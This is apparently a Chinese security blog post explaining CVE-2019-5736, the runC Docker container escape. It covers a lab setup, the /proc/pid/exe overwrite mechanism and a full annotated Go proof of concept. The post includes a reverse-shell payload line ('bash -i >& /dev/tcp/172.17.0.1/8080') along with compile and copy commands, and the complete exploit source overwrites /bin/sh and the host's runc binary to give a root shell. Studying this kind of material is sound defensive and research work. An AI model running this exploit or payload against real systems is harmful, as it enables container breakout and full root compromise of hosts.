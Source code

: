 ```yaml
---
layout: post
title:  "CVE-2019-5736"
categories: escape
tags: docker escape
author: ble55ing
---
```


* content
{:toc}
## CVE-2019-5736

CVE-2019-5736是一个docker的逃逸漏洞，该漏洞是产生于runC容器的，RunC是最初作为docker的一部分开发的，用于处理与运行容器相关的任务。如创建容器、将进程附加到现有容器等。

在docker 18.09.2之前版本中使用了的runc版本小于1.0-rc6，所以会存在这个漏洞。当然不是docker只要用runc小于1.0-rc6，就会存在该漏洞。

该漏洞允许攻击者重写宿主机上的runc 二进制文件，导致攻击者可以在宿主机上以root身份执行命令。

### 漏洞复现

找到了一个一键安装漏洞的脚本https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/

通过这个脚本会安装该版本的docker，以及一个对应的一个容器，

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20200318211716.png)

有一个go语言写的payload还是很清晰的

https://github.com/Frichetten/CVE-2019-5736-PoC

下载下来修改一下，把执行的payload改为反弹shell的payload 

```
"#!/bin/bash \n bash -i >& /dev/tcp/172.17.0.1/8080 0>& 1 &\n"
```

并编译该paylaod

```
GO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

并将其复制到docker里

```
docker cp main ff0:/home
```

然后只要在docker中启动该程序，再在主机上监听端口，再启动这个容器时，就会反弹一个root权限的shell给主机的终端。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/64.png)

即，通过docker的逃逸得到了一个主机的shell

### 漏洞原理

漏洞的存在原理在于/proc/pid/exe这个绑定的方式，/proc是比较熟知的一个概念，为一个虚拟文件系统，其中的文件能够显示当前的进程运行信息。/proc/pid/exe是一个程序链接，指向这个pid运行的程序。

而这个漏洞的利用方式就在于，在docker里查找到runc的exe，然后向这个位置写入东西的话，就能够将宿主机的程序覆盖掉，然后用户下一次再要运行runc的时候，就会触发反弹shell。

可以看到，宿主机的docker-runc文件已经被覆盖掉了

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20200319195844.png)



因此，只要存在一个有docker内root权限，然后再通过这种方式，就可以实现docker逃逸，之后再打开任意docker，都会触发这个漏洞。（改不回去了）

### 攻击方式

如下为前文给出的攻击脚本，接下来对其进行分析

```
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/172.17.0.1/8080 0>& 1 &\n"

func main() {
	//首先来看看能不能打开/bin/sh，即有root权限就成
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
    
    //然后将其覆盖为#!/proc/self/exe
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")
	
	// 循环遍历/proc里的文件，直到找到runc是哪个进程
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// 循环去读这个/proc/pid/exe，先拿到一个该文件的fd，该fd就指向了runc程序的位置
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// 然后不断的去尝试写这个指向的文件，一开始由于runc会先占用着，写不进去，直到runc的占用解除了，就立即
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}
```

